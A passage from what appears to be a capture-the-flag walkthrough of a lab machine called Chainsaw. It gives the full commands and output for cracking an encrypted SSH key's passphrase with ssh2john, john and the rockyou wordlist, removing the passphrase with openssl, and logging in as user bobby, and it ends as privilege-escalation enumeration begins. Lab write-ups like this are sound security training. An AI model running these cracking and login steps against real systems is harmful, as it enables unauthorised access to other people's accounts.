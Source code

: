 I’ll crack the password on the key with `john` / `rockyou`:

    
    
    root@kali# base64 -d bobby.key.enc.b64 > bobby.key.enc
    root@kali# /opt/john/run/ssh2john.py bobby.key.enc > bobby.key.enc.john
    root@kali# /opt/john/run/john bobby.key.enc.john --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
    Cost 2 (iteration count) is 2 for all loaded hashes
    Will run 3 OpenMP threads
    Note: This format may emit false positives, so it will keep trying even after
    finding a possible candidate.
    Press 'q' or Ctrl-C to abort, almost any other key for status
    jackychain       (bobby.key.enc)
    1g 0:00:00:14 DONE (2019-07-06 17:31) 0.06770g/s 971001p/s 971001c/s 971001C/s     1990..*7¡Vamos!
    Session completed
    

I’ll make a copy of the key with no password:

    
    
    root@kali# openssl rsa -in bobby.key.enc -out ~/id_rsa_chainsaw_bobby
    Enter pass phrase for bobby.key.enc:
    writing RSA key
    

### SSH Shell

Now I can connect as bobby:

    
    
    root@kali# ssh -i ~/id_rsa_chainsaw_bobby bobby@10.10.10.142
    bobby@chainsaw:~$ id
    uid=1000(bobby) gid=1000(bobby) groups=1000(bobby),30(dip)
    

And grab `user.txt`:

    
    
    bobby@chainsaw:~$ cat user.txt 
    af8d9df9************************
    

## Priv: bobby –> root

### Enumeration

In addition to `user.txt`, there’s two folders in bobby’s homedir:

    
    
    bobby@chainsaw:~$ ls
    projects  resources  user.txt
    

`resources` has documentation related to IPFS:
